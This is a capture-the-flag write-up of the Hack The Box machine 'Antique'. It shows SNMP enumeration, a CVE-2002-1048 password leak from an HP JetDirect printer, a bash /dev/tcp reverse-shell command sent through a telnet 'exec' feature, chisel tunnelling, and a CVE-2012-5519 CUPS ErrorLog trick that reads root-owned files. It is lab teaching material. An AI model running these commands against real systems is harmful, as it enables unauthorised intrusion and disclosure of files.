

+++
title = "Antique"
date = "2023-12-14"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-09-27

**Created by**: [MrR3boot](https://app.hackthebox.com/users/13531)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.11.107`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Antique using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.107 -p-
```

```
<SNIP>
PORT   STATE SERVICE
23/tcp open  telnet
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the service associated with the open port we found.

```sh
❯ nmap -sS 10.10.11.107 -p 23 -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<SNIP>
```

Alright, so `nmap` identified Telnet running on port `23/tcp`. Its fingerprint is unknown though, so we don't know its version.

And that's all. No other open ports. So either there's some UDP open ports too that we didn't find because we only scanned TCP, or Telnet is our way in.

## Scripts

Let's run `nmap`'s default scripts on this service to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.107 -p 23 -sC
```

```
<SNIP>
PORT   STATE SERVICE
23/tcp open  telnet
<SNIP>
```

Unfortunately, `nmap`'s scans failed to uncover more information.

Let's explore Telnet then!

## Telnet (port `23/tcp`)

Let's try to connect to Antique over Telnet.

```sh
❯ telnet 10.10.11.107
```

```
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password:
```

Predictably, we are asked for a password. It also prints a `HP JetDirect` string though: let's keep that in mind, maybe it will be useful later on.

## Common passwords

We can try to enter common passwords, like `root` or `admin`, but unfortunately it doesn't  work.

## Known CVEs

Let's see if Telnet is vulnerable to known CVEs.

```sh
❯ nmap -sS 10.10.11.107 -p 23 --script vuln
```

```
PORT   STATE SERVICE
23/tcp open  telnet
```

Nothing... I guess we'll have to check for UDP ports.

## UDP port scanning

Since scanning UDP ports is very slow, let's focus on the 100 most common.

```sh
❯ nmap -sU 10.10.11.107 --top-ports 100
```

```
<SNIP>
PORT    STATE SERVICE
161/udp open  snmp
<SNIP>
```

Okay, so the port `161/udp` corresponding to the service `snmp` is actually open!

I didn't know anything about this service, so I searched online and I found:

> SNMP stands for simple network management protocol. It is a way that servers can share information about their current state, and also a channel through which an administer can modify pre-defined values.
>
> — [DigitalOcean](https://www.digitalocean.com/community/tutorials/an-introduction-to-snmp-simple-network-management-protocol)

That's interesting! Maybe we can access the configuration of some devices and gather more information.

## Service fingerprinting

Following this new port scan, let's gather more data about the service associated with the open port we found.

```sh
❯ nmap -sU 10.10.11.107 -p 161 -sV
```

```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```

Okay, so `nmap` determined that this service is using `SNMPv1 server (public)`.

## Scripts

Let's see if `nmap`'s default scripts manage to find more information.

```sh
❯ nmap -sU 10.10.11.107 -p 161 -sC
```

```
PORT    STATE SERVICE
161/udp open  snmp
```

Nothing new here.

## SNMP (port `161/udp`)

Since SNMP is using version `1`, it relies on a community string to authenticate and control access to network devices. This acts a very basic form of security.

Therefore, we have to determine the community string to proceed with SNMP's enumeration.

### Community string

One of our previous scan revealed that the `snmp` service was using `SNMPv1 server (public)`. The `public` part is really interesting, as this is also a common default community string indicating that we have a read-only access to the data!

If we try to run SNMP-related commands with this community string, we see that they succeed! In fact, every community string is valid.

### Dumping MIB

Let's retrieve the values associated with the objects stored on Antique's SNMP MIB.

```sh
❯ snmpwalk 10.10.11.107 -v1 -c public
```

```
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Alright, so it returned a single OID: `iso.3.6.1.2.1`. Its value is set to the string `HTB Printer`.

Remember the output we got when we tried to connect to Antique over Telnet? It was `HP JetDirect`. This really sounds like a printer technology! And if we search online, it turns out that this is indeed the case:

> HP Jetdirect is the name of a technology sold by Hewlett-Packard that allows computer printers to be directly attached to a local area network.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/JetDirect)

So it's safe to assume that Antique is using a HP JetDirect printer.

## Known CVEs

At this point I was stuck for a while. But if we search [ExploitDB](https://www.exploit-db.com/) for `JetDirect`, we find [HP Jetdirect - Path Traversal Arbitrary Code Execution (Metasploit)](https://www.exploit-db.com/exploits/45273)([CVE-2017-2741](https://nvd.nist.gov/vuln/detail/CVE-2017-2741)).

That looks like a great way to get a foothold! But unfortunately this box is not vulnerable to it. Back to [ExploitDB](https://www.exploit-db.com/), we also find [HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure](https://www.exploit-db.com/exploits/22319)([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048)). That's not as good as a RCE, but it still could be useful.

# Foothold ([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048))

[CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048) is a security vulnerability found in HP JetDirect printers. The vulnerability allows a remote attacker to obtain the hex-encoded device password via an SNMP GET request to the OID `.1.3.6.1.4.1.11.2.3.9.1.1.13.0`.

## Exploitation

This CVE is easy to exploit, we just need to retrieve the value of the OID `.1.3.6.1.4.1.11.2.3.9.1.1.13.0`.

```sh
❯ snmpwalk 10.10.11.107 -v1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

```
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Alright, so now we should have the hex-encoded password.

Let's use this Python script to decode it:

```py
# Save the hex-encoded string
numbers = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

# Split the initial string into separate hex values
array = numbers.split(" ")

# Convert each hex value to its corresponding ASCII character
characters = [chr(int(hex_value, 16)) for hex_value in array]

# Join the characters to form the final string
result_string = "".join(characters)

# Show the result
print(result_string)
```

Let's save this script as `/workspace/decoder.py` and execute it:

```sh
❯ python3 /workspace/decoder,py
```

```
P@ssw0rd@123!!123       ▒"#%&'01345789BCIPQTWXaetuyăĆđĔĕęĢģĦİıĴĵ
```

Okay, so the first part of the output looks like a password, and the second part is gibberish. Let's focus on the first part then!

## Telnet

Back to Telnet, let's try to connect using `P@ssw0rd@123!!123` as the password.

```sh
❯ telnet 10.10.11.107
```

```
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
>
```

Yay! It worked!

## Shell

We didn't get a shell though. The login message suggests entering `?` to get help, so that's what I'll do:

```sh
> ?
```

```
To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

Alright, so apparently we can use `exec` to execute a system command. The goal will now be to get a reverse shell.

I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's find the payload to obtain the reverse shell. I'll choose this one:

```sh
sh -i >& /dev/tcp/10.10.14.5/9001 0>&1
```

Let's use it to get a reverse shell.

```sh
> exec bash -c "sh -i >& /dev/tcp/10.10.14.5/9001 0>&1"
```

Back to the listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.107] 46718
sh: 0: can't access tty; job control turned off
$
```

It caught the reverse shell! Nice!

This shell is quite limited though, so let's execute a Python one-liner to transform it into an interactive one:

```sh
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
lp@antique:~$
```

That's better!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `lp`.

## Distribution

Let's see which distribution Antique is using.

```sh
lp@antique:~$ lsb_release -a
```

```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:        20.04
Codename:       focal
```

So this is Ubuntu 20.04.3, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Antique's architecture?

```sh
lp@antique:~$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Antique is vulnerable to a kernel exploit?

```sh
lp@antique:~$ uname -r
```

```
5.13.0-051300-generic
```

Unfortunately, the kernel version is recent too.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
lp@antique:~$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
total 60
-rw-r--r--   1 root root  1313 Apr 12  2020 lsb_release
-rw-r--r--   1 root root  1108 Apr 12  2020 nvidia_modprobe
-rw-r--r--   1 root root  3222 Mar 11  2020 sbin.dhclient
-rw-r--r--   1 root root  3202 Feb 25  2020 usr.bin.man
-rw-r--r--   1 root root  1575 Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r--   1 root root  1385 Dec  7  2019 usr.sbin.tcpdump
```

All of these profiles are classic.

## NICs

Let's gather the list of connected NICs.

```sh
lp@antique:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:93:90 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.107/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9390/64 scope global dynamic mngtmpaddr 
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:feb9:9390/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Antique's hostname?

```sh
lp@antique:~$ hostname
```

```
antique
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
lp@antique:~$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
```

Okay, so there's only `root`.

## Local groups

Let's retrieve the list of all local groups.

```sh
lp@antique:~$ getent group | cut -d: -f1 | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
kvm
landscape
list
lp
lpadmin
lxd
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
shadow
src
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

## User account information

Let's see to which groups we currently belong

```sh
lp@antique:~$ groups
```

```
lp lpadmin
```

Unfortunately we don't belong to the `lxd` group, but to the default group for our user, and to the `lpadmin` group. What's that?

> `lpadmin` is a command line tool used to configure printer and class queues provided by CUPS.
>
> — [The Geek Stuff](https://www.thegeekstuff.com/2015/01/lpadmin-examples/)

Okay, that's good to know.

## Home folder

Interestingly enough, there's a folder in `/home` for our user, even though we're not a real user. If we check its content, we find the user flag file:

```sh
lp@antique:~$ cat ~/user.txt
```

```
7dd5739b809911f7b62bbf2d098ca204
```

## Command history

We can try to check the history of the commands our user ran, but it's discarded into `/dev/null`.

## Sudo permissions

If we try to check for our `sudo` permissions, we are asked for a password. But the one we used to connect through Telnet doesn't work.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```sh
lp@antique:~$ env
```

```
SHELL=/usr/sbin/nologin
SUDO_GID=0
SUDO_COMMAND=/usr/bin/authbind --deep python3 /var/spool/lpd/telnet.py
SUDO_USER=root
PWD=/var/spool/lpd
LOGNAME=lp
LD_PRELOAD=/usr/lib/authbind/libauthbind.so.1
HOME=/var/spool/lpd
LANG=en_US.UTF-8
TERM=unknown
USER=lp
SHLVL=2
AUTHBIND_LIB=/usr/lib/authbind/libauthbind.so.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
AUTHBIND_LEVELS=y
SUDO_UID=0
MAIL=/var/mail/lp
_=/usr/bin/env
```

The `PWD` variable is set to `/var/spool/lpd`, and the `SUDO_COMMAND` refers to the `/usr/bin/authbind --deep python3 /var/spool/lpd/telnet.py` command... That's intriguing!

## Exploring `/var/spool/lpd`

If we explore the `/var/spool/lpd` folder, we find two files: `user.txt`, corresponding to the user flag we already retrieved in our pseudo home folder, and `telnet.py`, a file called by the `SUDO_COMMAND` environment variable.

```py
#!/usr/bin/python3
import os
import sys
import socket
import threading
import subprocess
from _thread import *

welcome_message = b"""\nHP JetDirect\n\n"""

options = b"""
To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
"""


HOST = "0.0.0.0"
PORT = 23


def threaded(conn):
    conn.send(welcome_message)
    conn.recv(1024)
    conn.send(b"Password: ")
    if b"P@ssw0rd@123!!123" in conn.recv(1024):
        conn.send(b'\nPlease type "?" for HELP\n')
        while True:
            conn.send(b"> ")
            data = conn.recv(1024)
            if b"?" in data:
                conn.send(options)
            elif b"exec" in data:
                cmd = data.replace(b"exec ", b"")
                cmd = cmd.strip()
                os.chdir("/var/spool/lpd")
                p = subprocess.Popen(
                    [f'{cmd.decode("utf-8")}'],
                    shell=True,
                    stdout=subprocess.PIPE,
                    stderr=subprocess.PIPE,
                )
                stdout, stderr = p.communicate()
                if stdout:
                    conn.send(stdout)
            elif b"exit" in data:
                conn.close()
            else:
                conn.send(b"Err updating configuration\n")
    else:
        conn.send(b"Invalid password\n")
        conn.close()


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen()
    while True:
        conn, addr = s.accept()
        start_new_thread(threaded, (conn,))
    s.close()
```

This Python script gives us insights into how this box works. It's responsible for printing the Telnet welcome message, checking the password, and handling the subsequent actions.

That's a great finding, but this won't help us reaching `root`.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```sh
lp@antique:~$ ss -tln
```

```
State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        128              0.0.0.0:23            0.0.0.0:*              
LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*              
LISTEN   0        4096               [::1]:631              [::]:*
```

There's something listening locally on port `631/tcp`. What could it be?

```sh
lp@antique:~$ cat /etc/services | grep -E '\b631/tcp\b'
```

```
ipp             631/tcp                         # Internet Printing Protocol
```

So this port is used to manage printers. Maybe we could exploit it?

## CUPS (port `631/tcp`)

Let's use `nc` to interact with it.

```sh
lp@antique:~$ nc 127.0.0.1 631
```

```
HTTP/1.0 400 Bad Request
Date: Thu, 14 Dec 2023 20:43:41 GMT
Server: CUPS/1.6
Content-Type: text/html; charset=utf-8
Content-Length: 346

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Bad Request - CUPS v1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
</HEAD>
<BODY>
<H1>Bad Request</H1>
<P></P>
</BODY>
</HTML>
```

If we enter a random input, we receive an HTTP response.

### Local port forwarding

It would be easier to investigate this application if I could get access to it from my own machine. To do so, I'll use `chisel` to set up local port forwarding.

```sh
❯ /workspace/server/chisel server -p 8000 --reverse
```

```
2023/12/14 21:45:38 server: Reverse tunnelling enabled
2023/12/14 21:45:38 server: Fingerprint o5AO6REDrDMSUNnKgsZ6b1tLPohuQira5tefsO5ZCxQ=
2023/12/14 21:45:38 server: Listening on http://0.0.0.0:8000
```

And then on Antique:

```sh
lp@antique:~$ /tmp/chisel client 10.10.14.5:8000 R:631:127.0.0.1:631
```

```
2023/12/14 20:47:38 client: Connecting to ws://10.10.14.5:8000
2023/12/14 20:47:39 client: Connected (Latency 55.279531ms)
```

Alright, so now we should have access to the mysterious website from our own machine.

### Browser

Let's open up a browser and go to `http://127.0.0.1:631/`.



Okay, so this website is used by CUPS version `1.6.1`! This corresponds to the `lpadmin` group our user has.

According to the homepage, 'CUPS is the standards-based, open source printing system developed by Apple Inc. for OS® X and other UNIX®-like operating systems'.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://127.0.0.1:631/ -I
```

```
HTTP/1.1 200 OK
Date: Thu, 14 Dec 2023 21:14:00 GMT
Server: CUPS/1.6
Connection: Keep-Alive
Keep-Alive: timeout=30
Content-Language: en_US
Content-Type: text/html; charset=utf-8
Last-Modified: Thu, 13 May 2021 05:36:41 GMT
Content-Length: 3792
```

The `Server` confirms that this is CUPS version `1.6`.

### Known CVEs

Before exploring the website, let's check if it's vulnerable to know CVEs.

A quick search reveal that [CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519) might be a viable candidate.

# Privilege escalation ([CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519))

[CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519) is a vulnerability that affects CUPS versions prior to `1.6.2`. CUPS allows members of the `lpadmin` group to make changes to the `cupsd.conf` configuration, which can specify an 'Error Log' path. When the user visits the 'Error Log' page in the web interface, the `cupsd` daemon (running with setuid `root`) reads the 'Error Log' path and echoes it as plaintext. Therfore, by altering the location of the 'Error Log', we can disclose the content of any file.

## Checks

We already discovered that our used is in the `lpadmin` group, and the CUPS version is in the range specified in the CVE description, so Antique should be vulnerable to it!

## Exploitation

Metasploit has a `post/multi/escalate/cups_root_file_read` module designed to exploit this CVE. However, it shouldn't be too hard to exploit by hand, so I'll do it manually.

First, I need to define which file content I want to obtain. In this case, it will be `/root/root.txt`, the standard location for the root flag.

Then, I'll use `cupsctl` to set the `ErrorLog` file to be this one.

```sh
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
```

Finally, I'll fetch the content of the 'Error Log' page so that the `cupsd` daemon echoes the content of `/root/root.txt`.

```sh
❯ curl http://127.0.0.1:631/admin/log/error_log
```

```
c1e6af4e3073b841868a4a2e20312c19
```

Nice! We got the root flag.

Unfortunately, there's no way to obtain a reverse shell using this vulnerability, since this is only an information disclosure, and there's no SSH keys to read.

# Afterwords


That's it for this box! I found the foothold hard to obtain, since the boxes I've done so far never required to scan UDP ports. I never had to deal with SNMP too, so that was new to me. On the contrary, I found the privilege escalation vector pretty easily, and it was only slightly harder to exploit it to get the root flag.

Thanks for reading!
